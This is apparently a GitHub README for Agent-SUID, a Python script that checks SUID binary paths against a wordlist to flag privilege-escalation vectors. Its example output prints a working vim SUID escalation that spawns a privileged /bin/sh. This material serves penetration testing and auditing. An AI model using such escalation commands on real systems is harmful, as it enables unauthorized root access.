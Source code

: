 # Agent-SUID v1.0

Agent-SUID is a Python script developed by **CyberGhoul** to assist security professionals in identifying potential privilege escalation vectors by discovering exploitable SUID binaries on a system. This tool allows users to input SUID binary paths and checks for matches against a predefined wordlist of SUID binaries to determine if the SUID binary is exploitable or not.

## Features
- **User Input:** Enter SUID binary paths one per line to check for exploitable SUID binaries.
- **Wordlist Matching:** Matches the base name of the input paths against a predefined wordlist.
- **Privilege Escalation Techniques:** Displays detailed information on potential privilege escalation techniques for matched binaries.
- **Installation & Uninstallation:** Easily install or uninstall the script to `/usr/local/bin` with superuser permissions.

## Installation

To install the script on your system:

```
sudo python3 agent-suid.py --install
```
This will copy the script to `/usr/local/bin`, making it accessible from anywhere in your terminal.

## Usage

To run the script, use the following command:

```
python3 agent-suid.py
```
Once running, you can input paths to be checked. Press Enter on an empty line to finish inputting paths.

### Command-Line Options:

`--help`: Displays the help message.

`--install`: Installs the script to /usr/local/bin. (Requires sudo permissions)

`--uninstall`: Uninstalls the script from /usr/local/bin. (Requires sudo permissions)

## Example

```
$ agent-suid

Agent-SUID v1.0 by CyberGhoul - the ultimate tool for discovering exploitable SUID binaries on your system. This tool is designed to help security professionals identify potential privilege escalation vectors.
        
Enter paths one per line (press Enter on an empty line to finish):

/bin/ping6
/bin/ping
/bin/mount
/bin/fusermount
/bin/umount
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/newgrp
/usr/bin/sudo
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/vmware-user-suid-wrapper
/usr/bin/passw
/bin/vim


Exploitable SUID Binaries Overview: 1 found
Details on privilege escalation techniques:

-------------------------------------------------
vim:
        sudo install -m =xs $(which vim) .
        ./vim -c ':py import os; os.execl("/bin/sh", "sh", "-pc", "reset; exec sh -p")'
        
-------------------------------------------------
```
## Uninstallation
To uninstall the script from your system:
```
sudo agent-suid --uninstall
```

## Requirements

- Python 3.x
- Superuser permissions (for installation/uninstallation)

## License

This project is licensed under the MIT License - see the [LICENSE](https://github.com/cyb3rgh0u1/Agent-SUID/blob/main/LICENSE) file for details.
